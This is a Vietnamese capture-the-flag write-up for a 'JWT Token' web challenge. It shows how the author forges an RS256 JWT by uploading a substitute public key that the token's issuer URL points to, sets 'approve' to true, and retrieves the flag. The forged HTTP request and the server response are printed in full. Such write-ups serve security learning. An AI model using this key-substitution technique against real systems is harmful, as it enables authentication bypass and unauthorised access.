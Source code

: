 ## JWT Token

Adrress: http://172.104.49.143:1574/

Đăng nhập với username một cách bình thường là `admin` :)))

<img src = "https://user-images.githubusercontent.com/93431512/193450231-a8541ebb-04b1-4385-9f3c-940cc067e9cb.png" width="50%">

Và cũng như một cách bình thường khác ta upload file

<img src = "https://user-images.githubusercontent.com/93431512/193450277-04df90a0-2892-4796-8519-bf050d271189.png" width="50%">

Quay trở lại trang `/` ta thấy có danh sách 1 số file đã up và nó có dạng `website/uploads/<username>/<filename>`

<img src = "https://user-images.githubusercontent.com/93431512/193450313-52fc3f5b-ae2e-4e0d-8152-85de4d99a103.png" width="50%">

Ở đây mình nghĩ ngay đến việc up shell và ghi `hacked by tronghieu220403` nhưng mà mãi k payload được nên nghĩ cách khác =)))

Để ý lại history có cái getflag.js mình vào thử

<img src = "https://user-images.githubusercontent.com/93431512/193450418-6423eabe-25d7-4946-a5ad-feedd95d045b.png" width="50%">

Đoạn Javascript của nó:
```Javascript
function getFiles(){
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "getflag", true);
    xhr.onload = function() {
        if (xhr.status === 200) {
            var flag = xhr.responseText.split("\n");
            var html = "";
            if (flag.length > 0) {
                    html += "<li>" + flag + "</li>";
                }
            document.getElementById("flag").innerHTML = html;
        } else {
            alert("Error: " + xhr.status);
        }
    }
    xhr.send();
}
```

Mình có check `./getflag` thì
<img src = "https://user-images.githubusercontent.com/93431512/193450478-3f939786-770a-4554-a11e-badb6f104b1b.png" width="50%">

Check Request kiểm tra Cookie:
```http
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImlzcyI6Imh0dHA6Ly9sb2NhbGhvc3Q6NTAwMC9zdGF0aWMva2V5cy5wdWIifQ.eyJ1c2VybmFtZSI6ImFkbWluIiwiYXBwcm92ZSI6ZmFsc2V9.KnO6VyVQ12jQ1uSJ8DmbxHDjMWi1-qkwx_EoVGmcpVJaP8E5g_YSl5t30Ij6cQQVFlfjMjJB0OFWm3rJtGcxvzcqgHRBZcPEPnoSPVgtq7GEa9VtsyjRYSMl7oUeiOJrnC0PifPt8KeAZRO43ZNnARULOxGH2Ntmqx6I7is4nPY1rkuz09_FxNMgiZ07gx8CBkKs7F8tNTqsIIWgEXVNFxB9QNlUokoxLjbr85muEz48-rpzqL74sKYA_pvhiwh7IoCRVg5WWrXUTEUIiA-tpX6q-CaImSSUtYL7CEw17O22hEggLwNrXBsJ17ApyaYkbU99ucB9HfMFqwdCBxudUBMagJihGLQe2w3wj_HJiYliIjdAk88l270Yjtm42OoeVW6Pf2XSR-d3ygjvNjjyxv2mBt6_443vx9nPTZ8TjA28mxGvRTs1nRHHmvDDpOLGT5WW6yApvRGoulFEsvrQdmKxPW3udGAy-xfVOjkWe_b7OaY2O4sFLKklR23Dz37H
```

Đây là JWT Cookie (Đề bài là JWT Token mà), sử dụng [JWT Tool](https://token.dev)

<img src = "https://user-images.githubusercontent.com/93431512/193450654-e6e9ca57-a3fe-43f1-9dd9-101e5893d829.png" width="50%">

Như vậy muốn có flag ta cần đổi giá trị `approve` thành `True` 

Nhưng mà mọi việc đâu dễ thế, ta cần đổi giá trị nhưng mà vẫn phải thỏa mãn Signature RS256

**Exploit:** Mình có thể tải xuống Pubkey và tìm trở lại PrivateKey, nhưng mà điều đó sẽ rất khó, cái gì khó quá thì bỏ qua :vvv

Vậy nếu như mình thay Pubkey thì sao nhỉ :)? rất hay trên trang Token.dev có sẵn Private và Public từ Template, sử dụng key đó luôn, bằng cách upload file pub mới lên

<img src = "https://user-images.githubusercontent.com/93431512/193451020-685bb621-4436-49d6-aab1-322c18dc6db5.png" width="50%">

Vậy ta đã có token mới, let's check :))

```http
GET /getflag HTTP/1.1
Host: 172.104.49.143:1574
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImlzcyI6Imh0dHA6Ly9sb2NhbGhvc3Q6NTAwMC91cGxvYWRzL2FkbWluL2hpaGkudHh0In0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYXBwcm92ZSI6dHJ1ZX0.2y8teT0Yu5YlRuencanFDXbmvDkdbfgZVbtsfzCRlcBZSPtMNN0Y8dmR5yumoYPrR5SJbyDE454Sewai_nW_q7FYm0a-hrW4GdxcWvnFYNkNq-58_1NJ6XKjGUZiT89lNpMKevvYvbcEiO1fspg_10Pu9_T7PBsRw2KeXC_Vl1TuNSL5xKzdFiLxRdKdOr33QkoWqe0k4S_rp6jcbXlz2AMITcDDT5E8nWzvkPSycSke6klJGyN2Mf1H7CPzTN96d90m3fhbzKkf5a82jPo4R1IGth2b0fFLTMhCRHmhmX5k3gRswWkwZvLxiRmGy6Svtras6ldRWDMzIrhADujY1Q
Connection: close
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.10.5
Date: Sun, 02 Oct 2022 11:12:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 44
Connection: close

FLAG: Flag{JWT_token_is_the_best_token_ever}
```
